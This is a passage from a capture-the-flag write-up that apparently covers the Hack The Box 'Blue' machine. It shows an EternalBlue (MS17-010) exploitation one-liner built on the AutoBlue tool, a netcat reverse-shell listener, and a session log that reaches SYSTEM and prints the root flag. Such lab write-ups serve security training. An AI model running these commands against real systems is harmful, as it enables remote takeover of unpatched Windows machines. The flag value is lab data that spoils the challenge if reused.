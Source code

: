 
# Root Flag
---

## Eternal Blue (One Liner)

> **Target is vulnerable to eternal blue**
> ![](/assets/obsidian/e3976ab77ddf327aab556fc0d81ec243.png)
{: .prompt-tip }

> POC (Best one I found so far) : https://github.com/3ndG4me/AutoBlue-MS17-010

Start Listener

```bash
rlwrap -r -f . nc -nlvp $LPORT
```

I will just use my sweet eternal blue one liner (Can be used for OSCP)

```bash
export LHOST="10.10.16.13" LPORT=1111 RHOST="blue.htb"; cd /opt/sectools/CVE/AutoBlue-MS17-010/shellcode && echo -e "y\n${LHOST}\n1111\n1111\n1\n1" | bash shell_prep.sh && cd .. && python eternalblue_exploit7.py $RHOST ./shellcode/sc_x64.bin 15
```

> In case the exploit failed, there are 3 ways to solve it:
>  1. Change the value of `numGroomConn` (It was `15` in my example) and run again
>  2. Use the exploit module in **metasploit**, it's more stable and reliable
>  3. Reset the machine
{: .prompt-info }

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/CVE/AutoBlue-MS17-010]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.13] from (UNKNOWN) [10.129.68.13] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
c5dd82d0a9ecb32737a11b0b602d5529

C:\Windows\system32>dir C:\Users\
dir C:\Users\
```